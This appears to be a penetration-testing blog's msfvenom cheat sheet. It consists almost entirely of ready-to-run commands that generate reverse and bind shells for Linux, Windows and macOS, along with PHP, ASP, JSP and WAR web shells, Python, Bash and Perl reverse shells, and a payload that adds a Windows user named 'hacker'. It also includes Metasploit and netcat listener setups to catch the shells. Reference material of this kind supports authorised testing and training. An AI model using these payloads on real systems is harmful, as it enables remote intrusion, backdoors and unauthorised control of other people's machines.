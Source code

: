 ```yaml
---
title:  "Msfvenom Cheat Sheet"
header: "Msfvenom Cheat Sheet"
categories: 
  - Cheatsheet
tags:
  - Msfvenom
---
```


Msfvenom (replaced the former msfpayload and msfencode tools) and is a tool that can be used to generate payloads as standaline files and encode them if needed. Everybody likes shells, right?

# Usage  
***

![Msfvenom Usage](/assets/images/msfvenom.JPG)

# Basic Commands  
***
#### List available payloads  
`msfvenom -l`

#### Encoding Payloads  
`msfvenom -p <PAYLOAD> -e <ENCODER> -f <FORMAT> -i <ENCODE COUNT> LHOST=<IP>`

# Handler Setup  
***
#### Meterpreter  
`msfconsole -q`  
`use exploit/multi/handler`  
`set PAYLOAD <PAYLOAD>`  
`set LHOST <IP>`  
`set LPORT <IP>`  
`set ExitOnSession false`  
`exploit -j -z`  

#### Netcat  
`nc -nlvp <PORT>`

# Linux  
***
#### Reverse Shell  
`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell.elf`

#### Bind Shell  
`msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=<IP> LPORT=<PORT> -f elf > shell.elf`

# Windows  
***
#### Reverse Shell  
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell.exe`

#### Bind Shell  
`msfvenom -p windows/meterpreter/bind_tcp RHOST= <IP> LPORT=<PORT> -f exe > shell.exe`

#### CMD Shell  
`msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell.exe`

#### User Creation  
`msfvenom -p windows/adduser USER=hacker PASS=password -f exe > useradd.exe`

# Mac  
***
#### Reverse Shell  
`msfvenom -p osx/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f macho > shell.macho`

#### Bind Shell  
`msfvenom -p osx/x86/shell_bind_tcp RHOST=<IP> LPORT=<PORT> -f macho > shell.macho`

# Web Payloads  
***
#### PHP  
`msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php`  
`cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php`

#### ASP  
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp`

#### JSP  
`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp`

#### WAR  
`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war`

# Scripting Payloads  
***
#### Python  
`msfvenom -p cmd/unix/reverse_python LHOST=<IP> LPORT=<PORT> -f raw > shell.py`

#### Bash  
`msfvenom -p cmd/unix/reverse_bash LHOST=<IP> LPORT=<PORT> -f raw > shell.sh`

#### Perl  
`msfvenom -p cmd/unix/reverse_perl LHOST=<IP> LPORT=<PORT> -f raw > shell.pl`
